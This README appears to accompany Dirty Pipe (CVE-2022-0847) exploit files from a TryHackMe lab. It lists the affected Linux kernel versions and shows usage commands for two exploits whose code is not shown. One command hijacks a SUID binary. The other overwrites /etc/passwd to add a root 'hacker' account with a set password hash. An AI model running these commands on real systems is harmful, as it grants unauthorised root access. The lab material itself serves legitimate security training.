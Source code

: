 
## Affected versions
    Linux kernel versions newer than 5.8 are affected.
    So far the vulnerability has been patched in the following Linux kernel versions:
        - 5.16.11
        - 5.15.25
        - 5.10.102
    You can learn more about the vulnerability here: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847
---
The two files are from [TryHackMe](https://tryhackme.com/room/dirtypipe).
### File 1: dirtypipez
Use: `./exploit <PATH TO SUID>` <br>
Example: `./exploit /bin/su`
### File 2: 
Example: `./exploit /etc/passwd 189  'hacker:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash` <br>
You get the nummber (189) from `grep -b "games" /etc/passwd`

### More Infos
- TryHackMe: https://tryhackme.com/room/dirtypipe
- HackTheBox: https://app.hackthebox.com/machines/Altered
